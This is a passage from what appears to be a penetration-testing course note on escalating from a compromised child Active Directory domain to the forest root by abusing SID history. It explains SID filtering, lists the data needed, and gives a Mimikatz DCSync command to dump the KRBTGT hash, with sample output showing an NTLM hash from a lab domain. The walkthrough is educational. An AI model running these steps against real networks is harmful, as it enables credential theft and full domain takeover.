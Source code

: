 
> **Why SID Filtering is Still Useful**
>
>While SID Filtering blocks the main functionality of SID history, its purpose is not to disable SID history entirely but to **control where and when SID history can be used**:
>
>- **Within the Same Forest:**  
>   SID Filtering is typically not applied to intra-forest authentication because all domains in a forest share the same schema and security boundary. SID History works seamlessly here.  
 >  Example: Users migrating between domains in the same forest (`DomainA.local` to `DomainB.local`) can use SID history without interference.
 >   
>- **Between Different Forests:**  
    Trusts between forests (or external domains) are high-risk. SID Filtering ensures that only valid SIDs from the trusted forest or domain are honored, blocking any unauthorized or injected SIDs.

#### The attack

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

##### Step 1: getting the KRBTGT hash from the child domain
First, we need to obtain the NT hash for the [KRBTGT](https://adsecurity.org/?p=483) account, which is a service account for the Key Distribution Center (KDC) in Active Directory.

Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

```cmd-session
# Go to mimikatz.exe file in the explorer and execute as admin

lsadump::dcsync /user:$domain\$user
# Example:
# .\mimikatz.exe
# lsadump::dcsync /user:LOGISTICS\krbtgt
```

Results:

```
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 10:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
```